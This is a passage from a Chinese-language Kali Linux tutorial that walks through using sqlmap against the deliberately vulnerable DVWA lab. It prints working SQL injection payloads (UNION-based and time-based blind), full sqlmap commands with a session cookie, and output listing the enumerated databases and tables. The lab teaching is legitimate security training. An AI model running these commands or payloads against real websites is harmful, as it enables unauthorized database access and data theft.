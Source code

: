 ```

 Type: UNION query 
 title: "MySQL UNION query (NULL) - 2 columns "
 Payload: id=x' UNION ALL SELECT CONCAT(0x3a6b6f683a,0x7979634f4e716b7 55961,0x3a696a793a),NULL#&Submit=y

 Type: AND/OR time-based blind 
 title: "MySQL < 5.0.12 AND time-based blind (heavy query) "
 Payload: id=x' AND 5276=BENCHMARK(5000000,MD5(0x704b5772)) AND 'XiQP'='XiQP&Submit=y 
--

 ** {TRUNCATED} ** 
```

上面的例子使用了`risk`值`3`和`level`值`5`。这些值定义了所执行测试的风险性和彻底性。更多`risk`和`level`的信息请参考 sqlmap 手册页和帮助文件。执行测试时，sqlmap 会快速将后端数据库识别为 MySQL，并跳过其它测试。如果没有指定任何操作，sqlmap 会仅仅判断是否任何参数存在漏洞，像上个例子那样。在一系列注入尝试之后，sqlmap 判断出`ID`参数存在多种类型的 SQL 注入漏洞。在确认漏洞之后，sqlmap 会执行操作来提取后端数据库的信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --dbs 
                            ** {CUT} ** 

--
[03:38:00] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron) 
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
[03:38:00] [INFO] fetching database names 
[03:38:00] [WARNING] reflective value(s) found and filtering out 
available databases [7]: 
[*] dvwa
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195
                            ** {TRUNCATED} ** 
```

在上面的例子中，`--dbs`参数用于枚举所有可用的，能通过 SQL 注入访问的数据库。通过名称来判断，它表明列出的数据库直接对应 DVWA 的应用。我们之后可以直接对数据库执行操作。为了提取 DWVA 数据库的所有表的名称，我们可以使用`--tables`参数来让 sqlmap 提取表名称，之后使用`-D`参数指定需要提取的数据库（`dvwa`）。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/dvwa/vulnerabilities/ sqli/?id=x&Submit=y" --cookie="security=low; PHPSESSID=bcd9bf2b6171b16f94 3cd20c1651bf8f" --risk=3 --level=5 --tables -D dvwa 
                            ** {CUT} ** 
Database: dvwa 
[2 tables] 
+-----------+ 
| guestbook | 
| users     | 
+-----------+ 
                            ** {TRUNCATED} ** 
```
